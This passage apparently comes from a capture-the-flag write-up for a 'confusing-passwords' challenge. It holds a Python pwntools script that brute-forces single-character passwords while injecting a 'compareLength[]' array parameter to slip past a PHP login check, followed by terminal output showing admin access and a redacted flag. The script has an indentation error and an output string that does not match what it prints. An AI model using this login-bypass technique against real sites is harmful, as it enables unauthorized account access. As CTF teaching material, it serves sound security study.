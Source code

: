 ```python
from pwn import *

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-=+_<>'
charset = [*charset]
for char in charset:
    print(f'trying {char}...')
    r = remote('challenges.0x0539.net',3011)
    r.send('POST /index.php HTTP/1.1\r\n'
            'Content-Length: 42\r\n'
            'Host: challenges.0x0539.net:3011\r\n'
            'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36\r\n'
            'Referer: http://challenges.0x0539.net:3011/index.php\r\n'
            'Content-Type: application/x-www-form-urlencoded\r\n'
            'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n'
            'Connection: close\r\n\r\n'
            'username=admin&password={}&compareLength[]='.format(char))

    response = r.recvall()
    if b'the secret flag:' in response:
    print(f'\n####### \n\'secret flag\' found in response. trimmed output:')
        print(((response.rsplit(b' Welcome admin.',2)[1]).rsplit(b'</div>\n')[0]).strip())
        print('#######')
        break
```

Running the script, we are able to successfully login with a POST request using `&password=f`:

```lua
┌──(root㉿RUBY)-[/mnt/…/ctf/sites/0x0539/confusing-passwords]
└─# python pass_enum.py
trying a...
/mnt/a/ctf/sites/0x0539/confusing-passwords/pass_enum.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send('POST /index.php HTTP/1.1\r\n'
trying b...
trying c...
trying d...
trying e...
trying f...
#######
'secret flag' found in response. appending trimmed output:

b"Since you've authenticated as an admin, here's the secret flag: FLAG{[redacted]}"
#######
```
